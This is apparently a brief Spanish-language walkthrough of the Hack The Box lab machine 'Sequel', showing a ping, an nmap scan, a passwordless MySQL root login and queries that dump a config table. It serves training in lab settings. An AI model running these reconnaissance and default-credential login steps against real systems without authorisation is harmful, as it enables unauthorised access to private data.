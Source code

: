Maquina: Sequel

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 160302](https://github.com/user-attachments/assets/f70ff2e2-b305-4f65-831b-553a85a1a7c4)

Iniciamos la máquina y verificamos la conexión

ping 10.129.67.127 -c 1

![Screenshot 2024-11-10 161533](https://github.com/user-attachments/assets/6a7d2d97-bd41-4c5a-b99b-d421040bd168)

realizamos un escaneo de puertos y servicios

sudo nmap -sV -sC -v 10.129.67.127

el puerto 3306 perteneciendo al servicio MySQL está abierto

![Screenshot 2024-11-10 161952](https://github.com/user-attachments/assets/ed9a8594-4182-4cd8-84c1-47a7f84a428a)

mysql -h 10.129.67.127 -u root

show databases;

![Screenshot 2024-11-10 162235](https://github.com/user-attachments/assets/ff3698b7-5300-4c63-acad-fd934dd4d615)

use htb;
show tables;

![Screenshot 2024-11-10 162516](https://github.com/user-attachments/assets/d13278bd-931b-4f94-945d-000b8ab62c9a)

select * from config;

![Screenshot 2024-11-10 162352](https://github.com/user-attachments/assets/a629f03c-df4c-4d58-8e00-5c5de5a3ed39)
